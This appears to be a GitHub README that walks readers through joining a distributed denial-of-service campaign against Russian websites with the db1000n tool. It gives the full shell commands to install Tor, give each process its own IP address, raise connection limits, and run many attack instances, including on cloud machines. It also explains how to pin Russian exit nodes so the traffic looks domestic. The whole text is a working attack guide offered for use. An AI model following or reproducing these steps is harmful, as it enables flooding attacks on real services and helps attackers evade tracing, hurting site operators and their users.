 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0).

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.21/db1000n_0.8.21_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated. 
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
